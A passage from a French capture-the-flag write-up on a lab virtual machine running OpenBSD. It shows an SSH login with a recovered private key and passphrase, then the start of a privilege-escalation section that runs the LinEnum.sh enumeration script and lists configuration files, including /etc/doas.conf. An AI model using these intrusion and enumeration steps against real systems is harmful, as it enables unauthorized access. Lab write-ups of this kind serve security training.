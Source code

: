
On peut dès lors se connecter au serveur avec la clé privée SSH et la bonne passphrase.

```console
root@blinils:~/folder_backup# ssh user@192.168.56.101 -i id_rsa
The authenticity of host '192.168.56.101 (192.168.56.101)' can't be established.
ECDSA key fingerprint is SHA256:6ERaSFrckV66j7RBrFiTjwlQs8WMfIiGZSLNj4otVb4.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.56.101' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Last login: Mon Oct 29 13:53:51 2018 from 192.168.1.114
OpenBSD 6.4 (GENERIC) #349: Thu Oct 11 13:25:13 MDT 2018

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

fourandsix2$ id
uid=1000(user) gid=1000(user) groups=1000(user), 0(wheel)

fourandsix2$ uname -a
OpenBSD fourandsix2.localdomain 6.4 GENERIC#349 amd64
```

## Élévation de privilèges avec doas

Pas de ```sudo -l``` cette fois-ci pour connaître la configuration sudo pour l’utilisateur courant, le binaire n'est pas installé sur le système. Le script [__LinEnum.sh__](https://github.com/rebootuser/LinEnum) va permettre d'obtenir tout plein d'informations sur le serveur : version du noyau, fichiers sensibles ou en écriture pour tous, accès privilégiés, liste des jobs, mots de passe par défaut, la liste est loin d'être exhaustive...

Le contenu du script est copié-collé dans l'éditeur [vi](https://en.wikipedia.org/wiki/Vi), à défaut de pouvoir le transférer convenablement.

```console
fourandsix2$ sh LinEnum.sh 
--snip--
\e[00;31m[-] All *.conf files in /etc (recursive 1 level):\e[00m
-rw-r--r--  1 root  wheel  3135 Oct 11 21:18 /etc/rc.conf
-rw-r--r--  1 root  wheel  620 Oct 11 21:18 /etc/acme-client.conf
-rw-r--r--  1 root  wheel  2602 Oct 11 21:18 /etc/login.conf
-rw-r--r--  1 root  wheel  271 Oct 11 21:18 /etc/mailer.conf
-rw-r--r--  1 root  wheel  831 Oct 11 21:18 /etc/newsyslog.conf
-rw-r--r--  1 root  wheel  187 Oct 11 21:18 /etc/ntpd.conf
-rw-------  1 root  wheel  388 Oct 11 21:18 /etc/pf.conf
-rw-r--r--  1 root  wheel  1441 Oct 11 21:18 /etc/syslog.conf
-rw-r--r--  1 root  wheel  68 Oct 29 15:23 /etc/resolv.conf
-rw-r--r--  1 root  wheel  110 Oct 29 13:29 /etc/doas.conf
-rw-r--r--  1 root  wheel  128 Oct 29 13:34 /etc/usermgmt.conf
```

